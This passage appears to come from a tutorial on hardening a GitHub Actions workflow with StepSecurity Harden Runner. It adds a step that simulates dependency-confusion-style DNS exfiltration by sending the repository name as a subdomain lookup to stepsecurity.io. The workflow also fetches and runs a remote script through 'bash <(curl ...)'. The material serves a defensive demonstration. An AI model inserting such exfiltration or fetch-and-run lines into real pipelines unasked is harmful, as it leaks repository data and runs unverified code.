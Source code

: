               go-version: '1.17'
          - name: Run coverage
            run: go test -race -coverprofile=coverage.txt -covermode=atomic
          - name: Upload coverage to Codecov
            run: |
              bash <(curl -s https://codecov.io/bash)
     ````

8. Simulate a DNS exfiltration attack similar to the one used in the dependency confusion attack. Update the workflow and add the following statement. In the actual attack, the outbound call was made by a malicious package as part of `preinstall` step. In this case, just add this step to the workflow to simulate sending the repo name as a sub-domain to stepsecurity.io. 

    ```
    - name: Simulate DNS traffic
        run: |
          domain="${GITHUB_REPOSITORY}.stepsecurity.io"
          domain=${domain//\//-}
          nslookup "${domain}"
    ```
    The updated file should look like this:
    ```
    name: Test and coverage

    on: [push, pull_request, workflow_dispatch]

    jobs:
      build:
        runs-on: ubuntu-latest
        steps:
          #Add StepSecurity Harden Runner from here onwards
          - uses: step-security/harden-runner@v1
            with:
              allowed-endpoints: 
                codecov.io:443
                github.com:443
          - uses: actions/checkout@v2
            with:
              fetch-depth: 2
          - uses: actions/setup-go@v2
            with:
              go-version: '1.17'
          - name: Run coverage
            run: go test -race -coverprofile=coverage.txt -covermode=atomic
          - name: Upload coverage to Codecov
            run: |
              bash <(curl -s https://codecov.io/bash)
          - name: Simulate DNS traffic
            run: |
              domain="${GITHUB_REPOSITORY}.stepsecurity.io"
              domain=${domain//\//-}
              nslookup "${domain}"
      ```
